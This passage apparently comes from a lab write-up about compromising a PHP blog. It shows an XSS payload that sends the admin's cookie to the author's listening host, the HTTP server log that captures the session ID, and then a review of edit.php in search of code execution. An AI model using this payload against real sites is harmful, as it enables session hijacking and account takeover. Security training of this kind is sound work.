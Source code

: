 
### Exfiltrating admin cookie

The payload that I am going to use is:

```javascript
<script>var i = new Image(); i.src = 'http://192.168.138.137/' + escape(document.cookie)</script>
```

This payload will generate an image, and set its `src` attribute to point to my IP address on port 80, where I am listening with `python3` `http.server` module.

```bash
 $ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.138.143 - - [28/Jul/2021 21:26:01] code 404, message File not found
192.168.138.143 - - [28/Jul/2021 21:26:01] "GET /PHPSESSID%3D8h8kt46prtmfkul3q3u3tbqaf3 HTTP/1.1" 404 -
```

Using the above cookie, I was able to log in as admin.

### Finding RCE

The admin can execute **CRUD** (Create, Read, Update, Delete) operations on the blog which involves a lot of communication with the *database*. Let's check some functionalities out:

Looking at file `edit.php`:

```php
<?php 
  require("../classes/auth.php");
  require("header.php");
  require("../classes/db.php");
  require("../classes/phpfix.php");
  require("../classes/post.php");

  $post = Post::find($_GET['id']);
  if (isset($_POST['title'])) {
    $post->update($_POST['title'], $_POST['text']);
  } 
?>
  <form action="edit.php?id=<?php echo htmlentities($_GET['id']);?>" method="POST" enctype="multipart/form-data">
    Title: 
    <input type="text" name="title" value="<?php echo htmlentities($post->title); ?>" /> <br/>
    Text: 
      <textarea name="text" cols="80" rows="5">
        <?php echo htmlentities($post->text); ?>
       </textarea><br/>
    <input type="submit" name="Update" value="Update">
  </form>
<?php
  require("footer.php");
?>
```
